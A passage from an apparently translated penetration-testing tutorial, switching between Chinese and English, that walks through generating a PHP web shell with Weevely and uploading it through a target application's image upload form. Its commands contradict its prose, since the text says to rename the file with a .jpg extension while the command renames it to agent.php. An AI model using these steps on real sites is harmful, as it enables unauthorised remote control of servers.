     ![How to do it...](img/image_07_044.jpg)

3.  现在我们需要在 PHP 中生成一个 shell，我们可以使用以下命令来实现：

    ```
          Weevely generate <password-to-connect> /root/weevely.php      Weevely generate uytutu765iuhkj /root/weevely.php

    ```

4.  键入`ls`，您将看到一个名为`weevely.php`的新文件已经创建，因为我们的应用程序只允许上传图像，所以我们需要将该文件重命名为`.jpg`扩展名，如下命令所示：

    ```
    mv weevely.php agent.php

    ```

5.  Open the target browser with the target application file upload module, click on **Browse**, and select this file from the `/root` directory and upload it, as shown the following screenshot:
